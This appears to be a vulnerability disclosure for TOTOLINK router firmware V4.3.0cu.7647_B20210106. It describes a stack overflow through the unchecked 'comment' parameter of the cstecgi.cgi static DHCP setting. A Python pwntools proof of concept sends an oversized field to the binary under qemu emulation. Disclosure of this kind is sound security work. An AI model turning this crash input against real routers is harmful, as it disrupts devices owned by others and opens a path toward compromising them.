 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_004200c8` (at address 0x04200c8) gets the JSON parameter `comment`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setStaticDhcpConfig",
    "addEffect": "0",
    "macAddress": "12:34:56:78",
    "comment": "A"*0x200,
    "ipAddress": "192.168.2.1"
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

